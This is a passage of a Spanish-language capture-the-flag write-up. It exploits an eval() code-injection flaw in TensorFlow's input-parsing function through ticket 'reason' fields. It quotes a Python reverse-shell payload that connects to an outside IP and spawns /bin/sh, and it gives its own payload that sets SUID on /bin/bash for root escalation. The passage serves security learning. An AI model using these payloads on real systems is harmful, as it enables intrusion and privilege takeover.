 `preprocess_input_exprs_arg_string` procesa las *razones (reasons)* de los *tickets* para convertirlos en un diccionario de *Python*.

La opción `safe=False` permite que se **decodifiquen** algunos **caracteres especiales** que de otro modo podrían generar una excepción si se utiliza la opción predeterminada *safe=True*. Sin embargo, esto también significa que **la función puede ser vulnerable a ataques de inyección de código malicioso**.

`preprocess_input_exprs_arg_string` se implementa de la siguiente forma:

```python
def preprocess_input_exprs_arg_string(input_exprs_str):
    input_dict = {}

  for input_raw in filter(bool, input_exprs_str.split(';')):
      ...
        input_key, expr = input_raw.split('=', 1)
      ## ast.literal_eval does not work with numpy expressions
      input_dict[input_key] = eval(expr)  ## pylint: disable=eval-used
  return input_dict
```

Vemos que nuestra entrada fluye hacia ***eval***, lo que conduce a la **inyección de código**. Información extraída del siguiente [blog](https://jfrog.com/blog/tensorflow-python-code-injection-more-eval-woes/).

El *PoC* para explotar la **inyección de código** lo he sacado del siguiente [enlace](https://github.com/advisories/GHSA-75c9-jrh4-79mc). Es el siguiente:

```python
hello=exec("""\nimport socket\nimport
subprocess\ns=socket.socket(socket.AF_INET,socket.SOCK_STREAM)\ns.connect(("10.0.2.143",33419))\nsubprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())""")
```

En este caso, se está utilizando la **inyección de código** para enviar una *reverse shell*. En nuestro caso, haremos que el usuario *root* asigne permisos *SUID* a la *bash*, para posteriormente *spawnearnos* una consola como este usuario. Por lo tanto, el *código* malicioso que deberemos inyectar en la *reason* de un *ticket* es el siguiente:

```python
hello=exec("""\nimport os\nos.system('chmod u+s /bin/bash')""")
```

Tramitaremos un nuevo *ticket* que contemple un campo *reason* con el código anterior:

![imagen 41](Pasted image 20230301191852.png)

Para evitar fallos, es importante *urlencodear* el *payload* `hello=exec("""\nimport os\nos.system('chmod u+s /bin/bash')""")`. En *BurpSuite*, lo podemos hacer seleccionando el texto que queramos *urlencodear* y pulsando *Ctrl+u*.

Nuestra solicitud se almacenará en la base de datos del sistema:

![imagen 42](Pasted image 20230301192331.png)

Finalmente, ejecutamos *ml_security.py* como *root* aprovechándonos del privilegio asignado a nivel de *sudoers*:
